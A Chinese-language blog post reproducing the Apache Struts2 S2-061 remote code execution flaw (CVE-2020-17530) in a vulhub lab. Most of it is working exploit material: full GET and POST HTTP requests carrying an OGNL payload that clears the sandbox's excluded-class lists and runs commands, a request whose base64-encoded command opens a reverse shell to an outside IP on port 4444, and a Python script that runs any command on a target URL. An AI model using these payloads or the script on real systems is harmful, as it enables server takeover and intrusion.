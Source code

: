 ```yaml
---
title: strcuts2-061复现
tags:
  - 安全
  - 复现
categories:
  - 安全
copyright: true
permalink: strcuts2-061复现
top: 0
password: 
abstract: 输入密码继续阅读.
message: 欢迎来到我的博客，输入密码继续阅读.
date: 2020-12-13 21:09:05
---
```


Apache Struts2框架是一个用于开发Java EE网络应用程序的Web框架。Apache Struts于2020年12月08日披露 S2-061 Struts 远程代码执行漏洞，开发人员使用了 %{…} 语法，从而攻击者可以通过构Payload，从而造成远程代码执行。


<!--more-->
该漏洞编号为 CVE-2020-17530 ，漏洞等级：高危 ，漏洞评分：7.5

S2-061是对S2-059沙盒进行的绕过！



http://www.jackson-t.ca/runtime-exec-payloads.html


### 漏洞复现

docker环境地址：

项目地址：
```
https://github.com/vulhub/vulhub/tree/master/struts2/s2-061
```


### 漏洞利用



验证是否存在漏洞


```
%{ 'AJay' + (10 + 3).toString()}
```
url编码之后encodeURIComponent

```
%25%7B%20%27AJay%27%20%2B%20(10%20%2B%203).toString()%7D
```

如果能够计算，说明存在漏洞

![20201213133910](https://raw.githubusercontent.com/Hatcat123/GraphicBed/master/Img2/20201213133910.png)

**get执行exp**


```
GET /?id=%25%7B(%27Powered_by_Unicode_Potats0%2Cenjoy_it%27).(%23UnicodeSec+%3D+%23application%5B%27org.apache.tomcat.InstanceManager%27%5D).(%23potats0%3D%23UnicodeSec.newInstance(%27org.apache.commons.collections.BeanMap%27)).(%23stackvalue%3D%23attr%5B%27struts.valueStack%27%5D).(%23potats0.setBean(%23stackvalue)).(%23context%3D%23potats0.get(%27context%27)).(%23potats0.setBean(%23context)).(%23sm%3D%23potats0.get(%27memberAccess%27)).(%23emptySet%3D%23UnicodeSec.newInstance(%27java.util.HashSet%27)).(%23potats0.setBean(%23sm)).(%23potats0.put(%27excludedClasses%27%2C%23emptySet)).(%23potats0.put(%27excludedPackageNames%27%2C%23emptySet)).(%23exec%3D%23UnicodeSec.newInstance(%27freemarker.template.utility.Execute%27)).(%23cmd%3D%7B%27ls%27%7D).(%23res%3D%23exec.exec(%23cmd))%7D HTTP/1.1
Host: xxxxxxx:8080
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=node0q527078386vpgx6z02bism1s1.node0
Connection: close


```

![20201213131012](https://raw.githubusercontent.com/Hatcat123/GraphicBed/master/Img2/20201213131012.png)

**post执行exp**
```
POST /index.action HTTP/1.1
Host: 192.168.1.107:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 827

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("ls")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--

```


**反弹shell**
```
POST /index.action  HTTP/1.1
Host: 192.168.1.107:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Length: 949
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF

Content-Length: 827


------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"


%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuODEvNDQ0NCAgMD4mMQ==}|{base64,-d}|{bash,-i}")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

![20201213132730](https://raw.githubusercontent.com/Hatcat123/GraphicBed/master/Img2/20201213132730.png)



如果不能返回，可以使用base64下
http://www.jackson-t.ca/runtime-exec-payloads.html

![20201213133056](https://raw.githubusercontent.com/Hatcat123/GraphicBed/master/Img2/20201213133056.png)



**脚本验证**

```
# encoding=utf-8
import requests
import sys
from lxml import etree




def exp(url,cmd):
    payload="%25%7b(%27Powered_by_Unicode_Potats0%2cenjoy_it%27).(%23UnicodeSec+%3d+%23application%5b%27org.apache.tomcat.InstanceManager%27%5d).(%23potats0%3d%23UnicodeSec.newInstance(%27org.apache.commons.collections.BeanMap%27)).(%23stackvalue%3d%23attr%5b%27struts.valueStack%27%5d).(%23potats0.setBean(%23stackvalue)).(%23context%3d%23potats0.get(%27context%27)).(%23potats0.setBean(%23context)).(%23sm%3d%23potats0.get(%27memberAccess%27)).(%23emptySet%3d%23UnicodeSec.newInstance(%27java.util.HashSet%27)).(%23potats0.setBean(%23sm)).(%23potats0.put(%27excludedClasses%27%2c%23emptySet)).(%23potats0.put(%27excludedPackageNames%27%2c%23emptySet)).(%23exec%3d%23UnicodeSec.newInstance(%27freemarker.template.utility.Execute%27)).(%23cmd%3d%7b%27"+cmd+"%27%7d).(%23res%3d%23exec.exec(%23cmd))%7d"
    tturl=url+"/?id="+payload
    r=requests.get(tturl)
    page=r.text
#   etree=html.etree
    page=etree.HTML(page)
    data = page.xpath('//a[@id]/@id')
    print(data[0])


if __name__=='__main__':
    print('+------------------------------------------------------------+')
    print('+ EXP: python struts2-061-poc.py http://8.8.8.8:8080 id      +')
    print('+ VER: Struts 2.0.0-2.5.25                                   +')
    print('+------------------------------------------------------------+')
    print('+ S2-061 RCE && CVE-2020-17530                               +')
    print('+------------------------------------------------------------+')
    if len(sys.argv)!=3:
        print("[+]ussage: http://ip:port command")
        print("[+]============================================================")
        sys.exit()
    url=sys.argv[1]
    cmd=sys.argv[2]
exp(url,cmd)

```

### 参考链接
https://mp.weixin.qq.com/s?__biz=MzAxNzkyOTgxMw==&mid=2247485269&idx=2&sn=44c0ef7230f2715fabe07620865db6dc&chksm=9bdf446faca8cd797b27154448a5edf2c7f1ef246f5534822a76537b2c0288d66f740f38da2c&scene=27&key=a807eef1e3c777ceb88567f45f0ba437dcbc2f7018dd8a74633d4ae819a5b89ae9dc2361b9290614cb1b22394f73065d6ca19a88be9266a66d162529b304fe347634ac99cbec43a99c42c8d6eae23d0524a56a7d9df1533542db731c7c5f77918e5e245ba0d092d5ea0fafd7f7126ecd1cf28330fc2626b1c1da47a6f593980d&ascene=0&uin=MjM2NjMzNTUwNA%3D%3D&devicetype=Windows+Server+2016+x64&version=6300002f&lang=zh_C
https://mp.weixin.qq.com/s?__biz=MzU2NDgzOTQzNw==&mid=2247486072&idx=1&sn=b7b1c04a72632ed5fd45bf2c59d51a11
http://www.jackson-t.ca/runtime-exec-payloads.html